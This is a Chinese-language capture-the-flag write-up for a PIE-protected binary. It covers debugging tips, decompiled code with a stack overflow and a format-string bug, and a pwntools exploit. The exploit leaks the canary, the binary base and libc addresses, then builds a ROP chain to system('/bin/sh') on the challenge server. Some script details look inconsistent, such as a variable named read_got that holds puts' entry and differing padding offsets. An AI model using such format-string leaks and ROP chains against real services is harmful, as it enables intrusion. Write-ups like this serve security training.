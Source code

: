 ## 这也是一道格式化字符串的题，rop，栈溢出

先说一下这道题目的调试，那道题目就开始调试了，发现竟然下不了断点！！！下不了断点可怎么调试啊？？</br>
于是做了以下工作：</br>
（1）刚开始以为是程序格式的问题，因为之前做的题目下载下来的文件格式都是exe可执行格式，这个文件是sharing file，但是可以运行，于是一顿谷歌，也没有找到解决
办法，这个办法无效。</br>
（2）问了同学，说是开了PIE保护的原因，发现ida里打开的程序文件，只有后三个字节的地址（偏移地址），也就是说程序的基地址是不知道的，只要我们找到程序的
基地址，再加上偏移地址就可以调试了。于是谷歌PIE调试下断点，给出了两种方法，一个是用pwndgb调试，b *$rebase(0x相对基址偏移)，如 b *$rebase(0x100)
即可，第二种办法是用命令 ps -aux|grep task_shoppingCart找到该程序的pie，然后根据上一条指令的结果，会有一个pie ID，如6158，进入到该文件下，
/proc/6158/map_files$ ls ，就可以查看程序的基址。但是！！但是！！！两种办法对于这个题目来说都不行！！！</br>
（3）于是有了第三种办法：直接调试 gdb pwn，然后 r ,直接 ctrl + c ,然后输入vmmap就能看到基址！！！</br>

__终于可以调试啦！__

## 做题思路

```c
unsigned __int64 sub_91C()
{
  char buf; // [rsp+7h] [rbp-4E9h]
  ssize_t v2; // [rsp+8h] [rbp-4E8h]
  char s; // [rsp+10h] [rbp-4E0h]
  char v4; // [rsp+D7h] [rbp-419h]
  char v5; // [rsp+E0h] [rbp-410h]
  unsigned __int64 v6; // [rsp+4E8h] [rbp-8h]

  v6 = __readfsqword(0x28u); //canary
  while ( 1 )
  {
    sub_8FD();
    v2 = read(0, &buf, 1uLL);  //读入一个字节（1，2，or 3）
    if ( v2 != 1 )
      break;
    if ( buf == 49 ) //读入的是1
    {
      read(0, &v5, 0x5DCuLL);  //栈溢出
    }
    else
    {
      if ( buf != 50 ) //读入的不是2
        return __readfsqword(0x28u) ^ v6; //出错
      read(0, &s, 0xC8uLL); //读
      v4 = 0;
      if ( strchr(&s, 110) ) //如果S中有/n，就输出nope
      {
        puts("nope");
      }
      else
      {
        printf("Is that it \"", 110LL);
        printf(&s);  //格式化字符串漏洞
        puts("\"?");
      }
    }
  }
  return __readfsqword(0x28u) ^ v6;
}
```

这道题目保护全开，上边已经提到了，开启PIE就不能正常调试，得知道程序基址，然后这道题目还涉及canary和格式化字符串漏洞，很容易想到，用格式化字符串去泄漏canary，以及我们要用的函数地址。
思路：用格式化字符串泄漏canary和read地址，得到libc版本，从而得到system（‘/bin/sh’）地址。

---
调试：
输入</br>
2AAAAAAAA,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx</br>
输出</br>
AAAAAAAA,7fffffffb1d0,7ffff7dd3780,7ffff7b042c0,7ffff7fda700,c,32007ffff7fdb000,1,4141414141414141,786c252c786c252c,786c252c786c252c,786c252c786c252c,786c252c786c252c,786c252c786c252c,786c252c786c252c</br>
查看栈中的内容：</br>
--More--(150/200)</br>
1200| 0x7fffffffdd10 --> 0x19 </br>
1208| 0x7fffffffdd18 --> 0x7ffff7dd2620 --> 0xfbad2887 </br>
1216| 0x7fffffffdd20 --> 0x555555554b44 ("<insert something clever>") </br>
1224| 0x7fffffffdd28 --> 0x7ffff7a7c7fa (<_IO_puts+362>:	cmp    eax,0xffffffff) </br>
1232| 0x7fffffffdd30 --> 0x0 </br>
1240| 0x7fffffffdd38 --> 0x7fffffffdd50 --> 0x7fffffffdd70 --> 0x555555554ac0 (push   r15)</br>
1248| 0x7fffffffdd40 --> 0x5555555547e0 (xor    ebp,ebp)</br>
1256| 0x7fffffffdd48 --> 0xc8d1cdd933276500 </br>
1264| 0x7fffffffdd50 --> 0x7fffffffdd70 --> 0x555555554ac0 (push   r15)</br>
1272| 0x7fffffffdd58 --> 0x555555554aac (mov    eax,0x0)</br>
1280| 0x7fffffffdd60 --> 0x7fffffffde58 --> 0x7fffffffe20a ("/home/hdd/oj/pwni/pwnio")</br>
1288| 0x7fffffffdd68 --> 0x100000000</br>

可以看到在158处就是canary的位置。但是相对于格式化字符串的参数，他在163的位置，因为AAAAAAAA是在栈中第八个显示的，显示在第三的位置，相差5，所以canary的位置=158+5=163.


## 脚本

```python
from pwn import *
from LibcSearcher import LibcSearcher
r= remote("vps1.blue-whale.me" ,19908)
elf=ELF('./pwnio')
#leak canary
r.recvuntil("1, 2, or 3\n")
payload = "2AAAAAAAA%163$p"
r.sendline(payload)
r.recvuntil("AAAAAAAA")
canary=int(r.recvuntil('\n'),16)
print hex(canary)

#leak elf_base
r.recvuntil("1, 2, or 3\n")
payload="2AAAAAAAA%165$p"
r.send(payload)
r.recvuntil("AAAAAAAA")
elf_base=int(r.recvuntil('\n'),16)&0xfffffffffffff000
print hex(elf_base)

#leak read_addr
pop_rdi=elf_base+0xb23
ret_addr=elf_base+0x91C
puts_plt=elf.plt['puts']
read_got=elf.got['puts']
payload='A'*0x408+p64(canary)+'B'*8
payload+=p64(pop_rdi)+p64(read_got)
payload+=p64(puts_plt)
payload+=p64(ret_addr)

r.sendline("1")
r.sendline(payload)
r.sendline("3")
read_addr=u64(r.recvuntil("\n",drop=True).ljust(8,'\x00'))
log.success('read_addr : ' + hex(read_addr))
#read_addr=0x7f1be43c29c0

#leak system_addr and binsh_addr
libc=LibcSearcher('read',read_addr)
libc_base=read_addr-libc.dump('read')
system_addr=libc_base+libc.dump('system')
binsh_addr=libc_base+libc.dump('str_bin_sh')

payload="1"+'A'*408+p64(canary)+"B"*8+p64(system_addr)+p64(ret_addr)+p64(binsh_addr)
r.sendline(payload)
r.sendline('3')
r.sendline("cat flag")
r.interactive()

```

